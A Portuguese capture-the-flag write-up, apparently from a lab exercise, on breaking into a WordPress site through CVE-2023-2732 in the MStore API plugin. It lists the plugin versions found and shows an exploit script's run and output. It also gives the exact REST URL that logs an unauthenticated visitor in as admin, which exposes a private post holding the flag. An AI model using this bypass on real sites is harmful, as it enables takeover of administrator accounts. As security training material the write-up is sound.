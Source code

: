 # Wordpress CVE

## Reconhecimento

- Após uma verificação da aplicação web, conseguimos obter informações importantes a ser exploradas.

|            Feature             |    Version   |
|--------------------------------|--------------|
| Wordpress                      | 5.8.1        |
| MStore API                     | 3.9.0        |
| WooCommerce plugin             | 5.7.1        |
| Booster for WooCommerce plugin | 5.4.4        |


- Possíveis utilizadores:

    1. admin
    
    2. Orval Sanford

## Vulnerabilidades

- O CVE encontrado foi o `CVE-2023-2732`.

- O plugin MStore API para WordPress é vulnerável a uma falha de autenticação nas versões até `3.9.2` 

- Isto deve-se à verificação insuficiente do utilizador fornecido durante a solicitação da API REST para adicionar listagens através do plugin. 

- Isto torna possível para atacantes não autenticados entrarem como qualquer utilizador existente no site, como um `admin`, se tiverem acesso ao ID do utilizador.

## Exploit

- Conhecida a vulnerabilidade, iniciámos a procura de um exploit ideal para explorar o CVE.


```
python3 mstore-api.py -u http://wordpress.lan


The plugin version is below 3.9.3.
Select a user:
1. admin
Enter the user ID: 1



Congratulations a vulnerable system has been found.

How to Exploit:

Visit the following url: http://wordpress.lan/wp-json/wp/v2/add-listing?id=1
Visit  http://wordpress.lan and you should be logged in as the user you have chosen.
```

- Substituímos o url exemplo pelo url pretendido.

```
http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1
```

- Desta maneira, ao visitarmos de novo o site, foi possível autenticar como `admin`.

## Ataque

- Agora na conta do admin, foi possível ter acesso a todo o tipo de informação privilegiada do site.

- Ao analisar um post privado, encontrámos a flag pretendida `flag{byebye}`.

![image](screenshots/CTF3_1.png)